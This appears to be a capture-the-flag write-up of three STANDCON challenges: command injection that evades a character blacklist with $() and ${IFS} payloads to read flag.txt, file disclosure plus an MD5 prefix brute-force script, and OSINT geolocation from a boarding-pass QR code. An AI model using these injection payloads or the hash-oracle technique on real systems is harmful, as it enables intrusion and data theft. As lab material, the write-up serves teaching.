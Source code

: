 # Table Of Contents
1. [Web Baby](#web-baby)
2. [Ye Olde News Website](#ye-olde-news-website)
3. [Relic Race](#relic-race)

## Web Baby

The website contains a function to ping an IP Address. Looking through the source code, we can deduce that multiple restrictions are set, namely:

1. Input cannot be longer than 15 characters
2. Many special characters are blacklisted

The characters below are the few that are not blacklisted:

* {}, (), $

​![image](assets/image-20231209205806-d5jxrso.png)​

Notice how the code takes our user input without sanitizing it. This makes the program vulnerable to **command injection**. After searching through cheatsheets such as **payloadallthethings**, I eventually found out  $() can be used for command injection.

​`$(whoami)`​

* bad address 'baby_web'

​`$(pwd)`​

* bad address '/'

​`$(ls)`​

* no result was shown, hinting that all files and directories are hidden in '/'

​`$(ls${IFS}*)`​

* ls: can't open 'root': Permission denied

Initially, I thought that **ls was disabled on the machine**. Thus, I searched for alternatives to ls and found this article:

* https://ubunlog.com/en/alternativas-al-comando-ls/

In the article I found this:

```
for **list hidden files** we will execute:
	echo *.*
```

After using that with the payload `$(ls${IFS}*.*)`​, we received the output:

* bad address 'flag.txt'

Replace ls with cat to get the flag! `$(cat${IFS}*.*)`​

* bad address 'STANDCON{1nj3ct1On\_@+\_uR\_c0MM@Nd}'

### References:

https://semgrep.dev/docs/cheat-sheets/go-command-injection/

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection

https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/

https://security.stackexchange.com/questions/219605/command-injection-filtering-bypass

https://www.cobalt.io/blog/a-pentesters-guide-to-command-injection

## Ye Olde News Website

These are the directories of interest found after examining the JavaScript on the web application:

```javascript
<script id="setup">
let HOST = "/"
let params = (new URL(document.location)).searchParams;
let article = params.get("article");
document.getElementById('title').innerHTML = article.split(".")[1];

fetch(HOST+'dir?category=article')
   .then(response => response.text())
   .then(text => document.getElementById("articleList").innerHTML=text)

setTimeout(() => {
fetch(HOST+"getArticle?maxlength=200&name="+article)
   .then(response => response.text())
   .then(text => document.getElementById("content").innerHTML=text.replace(/\\n/g,"<br>").slice(1, -1) + '...<br><br><b>Subscribe to read more!</b>')

document.getElementById('setup').remove();
},1000)
</script>
```

/dir?category=.

* use '.' to list out files since most filenames contain that character

  ​![image](assets/image-20231208233128-hcm8avm.png)​

/getArticle?maxlength=10000&name=article3.secret.txt

* get the text itself without it being cut off.
* maxlength grabs the first x number of characters specified in the url variable.	![image](assets/image-20231208233042-a49nwuv.png)​

* confidential articles are not to be read. Only the hash of such files are provided. Since the hash of the file constantly changes based on the maxlength variable, which is the first x number of characters in the file, we can use that to brute force the flag.

  ​![image](assets/image-20231208233216-vwfz7cs.png)​

  ​![image](assets/image-20231208233232-vicok9t.png)​

Grab the hash of the flag when max length = 10. This is because we already know the first 9 characters of the flag, `STANDCON{`​. Thus, we only need to brute force from the 10th character onwards.

Append all possible characters to the current flag, hash that appended text via md5 and compare hashes. A POC is provided below:

```python
#!/usr/bin/python3
import sys
import hashlib
# Use the latest hash and the current flag you possess to brute force the NEXT CHARACTER in the flag.
# Eg. md5 hash of first 10 chars of the flag as argument1, first 9 characters of flag as argument2.
currenthash = sys.argv[1]
currentflag = sys.argv[2]
wordlist='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()-_=+\\|~`[]{}'

for x in wordlist:
	newflag = currentflag + x
	hashedNewFlag = hashlib.md5(newflag.encode('UTF-8')).hexdigest()
	if(hashedNewFlag == currenthash):
		print("Latest Character Found!")
		print("Flag: " + newflag)
```

Flag: STANDCON{Y3_0LD3_S1MPL3_FL4G}

​![image](assets/image-20231208125817-77o5wtw.png)​

### References:

https://stackoverflow.com/questions/1009860/how-can-i-read-and-process-parse-command-line-arguments

## Relic Race

We were provided a screenshot of the thief's device. It contains an image of a QR Code, and satellite map image of an unknown location.

​![screenshot](assets/screenshot-20231209212451-adhfb6f.png)​

Decode the qr code using this website:

* https://products.aspose.app/barcode/recognize#/recognized
* M1BOSCO/MARK MR       1A11A1 SINLHRBN XXX  331Y26J 37    00

from the ticket, we deduce Mr. Mark is going from Singapore to Harbin. However, that is NOT the location in the image because China drives on the right side of the road, not the left as shown in the image. We eventually found out that the air ticket may refer to London, Heathrow instead and chose to further investigate Heathrow instead of harbin.

As the hint leads to overpass turbo, a graphical mapping tool which utilises openstreetmaps, I utilised a script I found to locate all **gas stations near banks**.

```
<!--
This is an example Overpass query.
Try it out by pressing the Run button above!
You can find more examples with the Load tool.
-->
<query type="node">
  <has-kv k="amenity" v="bank"/>
  <bbox-query {{bbox}}/>
</query>
<query type="node">
  <around radius="300"/>
  <has-kv k="amenity" v="fuel"/>
</query>

<print/>
```

Search all located nodes found, 17 in my case, and you will eventually find the exact location as shown in the initial **screenshot.png** file provided to us.

​![image](assets/image-20231208174208-rhkikcw.png)​

​![image](assets/image-20231208174224-9q7ruwt.png)​

Grab the coordinates and place it into google maps to double check:

​![image](assets/image-20231208174249-37rjtg6.png)​

Try the postal code of both the bank and the fuel station. In the end, the postal code of the fuel station is the correct answer for the flag.

* 312 Seven Sisters Rd, Greater, Finsbury Park, London N4 2AW, United Kingdom
* STANDCON23{N4 2AW}

### References

https://help.openstreetmap.org/questions/33089/proximity-search-node-with-tag1-near-node-with-tag2

https://wiki.openstreetmap.org/wiki/Map_features#Aerialway
